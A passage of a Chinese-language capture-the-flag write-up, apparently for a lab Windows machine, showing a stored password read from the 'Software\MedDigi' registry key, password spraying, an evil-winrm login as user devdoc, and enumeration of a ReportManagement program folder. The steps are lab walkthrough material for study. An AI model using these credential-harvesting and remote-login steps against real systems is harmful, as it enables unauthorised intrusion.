   从注册表"Software\MedDigi"中提取了EncKey键，我们也操作一下，得到了EncKey

   ```
   C:\>reg query HKEY_LOCAL_MACHINE\Software\MedDigi
   reg query HKEY_LOCAL_MACHINE\Software\MedDigi
   
   HKEY_LOCAL_MACHINE\Software\MedDigi
       EncKey    REG_SZ    1g0tTh3R3m3dy!!
   ```

4. 进行密码喷洒，确定这是devdoc用户的密码

   ```
   └─# evil-winrm -i 10.10.11.238 -u devdoc  -p '1g0tTh3R3m3dy!!'       
                                           
   Evil-WinRM shell v3.5
                                           
   Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                                                                                                 
                                           
   Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                                                                                                   
                                           
   Info: Establishing connection to remote endpoint
   *Evil-WinRM* PS C:\Users\devdoc\Documents> whoami
   appsanity\devdoc
   ```



## 3.2 devdoc用户权限后枚举

1. 在C:\Program Files\ReportManagement下发现了ReportManagement.exe，该应用程序名跟tcp 100上的进程名一样，我有理由怀疑该进程运行的就是该程序。同时这边还有许多dll文件，全部打包到本地进行调试

   ```
   *Evil-WinRM* PS C:\Program Files\ReportManagement> dir
   
   
       Directory: C:\Program Files\ReportManagement
   
   
   Mode                 LastWriteTime         Length Name
   ----                 -------------         ------ ----
   d-----        10/31/2023   5:09 PM                Libraries
   -a----          5/5/2023   5:21 AM          34152 cryptbase.dll
   -a----          5/5/2023   5:21 AM          83744 cryptsp.dll
   -a----         3/11/2021   9:22 AM         564112 msvcp140.dll
   -a----         9/17/2023   3:54 AM         140512 profapi.dll
   -a----        10/20/2023   2:56 PM         102912 ReportManagement.exe
   -a----        10/20/2023   1:47 PM       11492864 ReportManagementHelper.exe
   -a----         3/11/2021   9:22 AM          96144 vcruntime140.dll
   -a----         3/11/2021   9:22 AM          36752 vcruntime140_1.dll
   -a----          5/5/2023   5:21 AM         179248 wldp.dll
   ```
